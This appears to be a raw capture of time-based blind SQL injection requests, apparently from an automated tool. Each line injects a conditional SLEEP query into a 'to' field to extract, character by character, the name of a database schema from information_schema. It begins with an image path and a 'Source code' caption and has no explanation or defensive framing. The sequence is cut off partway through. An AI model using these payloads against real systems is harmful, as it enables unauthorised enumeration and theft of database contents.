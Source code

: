 {to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=108,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>108,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=106,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>106,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=105,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=108,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>108,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=110,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>110,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=111,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>112,SLEEP(0.155797244898),SLEEP(0))}